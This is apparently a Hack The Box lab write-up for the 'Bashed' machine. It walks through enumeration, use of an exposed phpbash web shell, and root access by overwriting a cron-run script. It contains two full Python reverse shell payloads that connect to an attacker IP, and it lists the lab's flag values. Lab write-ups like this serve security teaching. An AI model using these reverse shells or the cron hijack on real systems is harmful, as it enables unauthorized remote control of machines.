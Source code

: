 # HTB: Bashed

## Engagement Overview
**Target:** HTB – Bashed  
**Box IP:** 10.10.10.68
**Date:** 2025-07-06

---

### Objectives
- Enumerate open services and directories
- Gain initial foothold via exposed web shell
- Escalate to user and root
- Capture user and root flags

---

## Service Enumeration

```
nmap -sC -sV -oN nmap.txt 10.10.10.68
```

- Port 80 open – Apache httpd 2.4.18 (Ubuntu)
- Web page title: *Arrexel's Development Site*

**Directory Enumeration (Dirbuster):**
- `/dev/phpbash.min.php`
- `/dev/phpbash.php`
- `/uploads/`

---

## Initial Access

Accessing the exposed shell at:

```
http://10.10.10.68/dev/phpbash.php
```

Confirms web shell as `www-data`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Reverse Shell Upgrade

```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.2",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

Upgraded with:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

`www-data` has `sudo` access to run commands as `scriptmanager` without password:

```
(ALL : ALL) NOPASSWD: ALL
```

Switched to `scriptmanager`, discovered `/scripts/` directory is writable and contains:

```
-rw-r--r-- 1 scriptmanager scriptmanager   test.py
-rw-r--r-- 1 root          root            test.txt
```

Noted `test.txt` is regularly overwritten — likely a root cron job running `test.py`.

### Gained Root Shell via Cron Execution

Overwrote `test.py` with a reverse shell payload:

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.2",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Caught root shell via netcat listener.

---

## Post-Exploitation

**Flags:**
- `user.txt`: `501893517418a7460a6f616a86f3fd82`
- `root.txt`: `25a9eb38a763d8a0f04af9a3fc390ee7`

---

## Tools Utilized

- `nmap`
- `dirbuster`
- Python reverse shell
- `linuxprivchecker`
- `/dev/phpbash.php` interactive shell

References:
- https://github.com/sleventyeleven/linuxprivchecker
- https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2

---

## Key Takeaways

- Early enumeration can reveal dangerous dev artifacts like `phpbash.php` — always check `/dev/`, `/test/`, and `/uploads/`
- Reverse shells can be stabilized and upgraded quickly using Python and TTY tricks — important for chaining escalation steps
- Cron jobs running scripts owned or writable by non-root users are a goldmine for privesc
- Use of `sudo` without a password by secondary users (like `scriptmanager`) can be leveraged even without direct root access